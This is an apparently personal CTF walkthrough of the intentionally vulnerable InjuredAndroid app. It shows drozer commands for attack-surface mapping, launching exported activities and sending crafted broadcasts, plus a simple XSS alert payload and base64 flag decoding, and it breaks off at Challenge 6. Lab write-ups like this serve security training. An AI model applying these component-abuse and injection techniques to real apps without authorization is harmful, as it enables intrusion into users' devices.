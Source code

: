 # Injured Android

* [ ] Test fo Leaked Secrets with [apkX](https://github.com/cyinnove/apkX)

```
sallam@Mac-mini-Mosaad tools % ./apkx ../apps/InjuredAndroid.apk 
```

<figure><img src="../../.gitbook/assets/image (310).png" alt=""><figcaption></figcaption></figure>

* [ ] Test for Janus Bug with [j88nx](https://github.com/h0tak88r/j88nx)

```
sallam@Mac-mini-Mosaad tools % ./j88nx -apk ../apps/InjuredAndroid.apk 
```

<figure><img src="../../.gitbook/assets/image (309).png" alt=""><figcaption></figcaption></figure>

* [ ] Use Drozer for Information Gathering and and Attack Surface Mapping

```bash
# Enable drozer agent in the emulator
# Starting Session
adb forward tcp:31415 tcp:31415
# start the drozer application in the emulator
drozer console connect
drozer console connect --server <ip>

# List Modes
ls
ls activity

# Retrieving package information 
run app.package.list -f <app name>
run app.package.info -a <package name>

# Identifying the attack surface
run app.package.attacksurface <package name>
```

<figure><img src="../../.gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

* [ ] **XSS**

```
<script>alert('Android');</script>
```

<figure><img src="../../.gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

* [ ] **Challenge 1:** Login Activity

<figure><img src="../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

* [ ] **Challenge 2:** exported activity

<figure><img src="../../.gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

```
dz> run app.activity.start --component b3nac.injuredandroid b3nac.injuredandroid.b25lActivity
Attempting to run shell module
```

* [ ] **Challenge 3**: Resopurce

<figure><img src="../../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

* [ ] **Challenge 4**: Decoder

<figure><img src="../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (317).png" alt=""><figcaption><p>Take this and decode it </p></figcaption></figure>

```
echo 'NF9vdmVyZG9uZV9vbWVsZXRz' | base64 -d
```

* [ ] **Challenge 5**: Exploit Exported Broadcast Receiver

```
# in drozer
run app.broadcast.info -a b3nac.injuredandroid -i
run app.broadcast.send --component b3nac.injuredandroid b3nac.injandroid.TestBroadcastReceiver --extra string url hacked
```

<figure><img src="../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

* [ ] **Challenge 6:**&#x20;
*

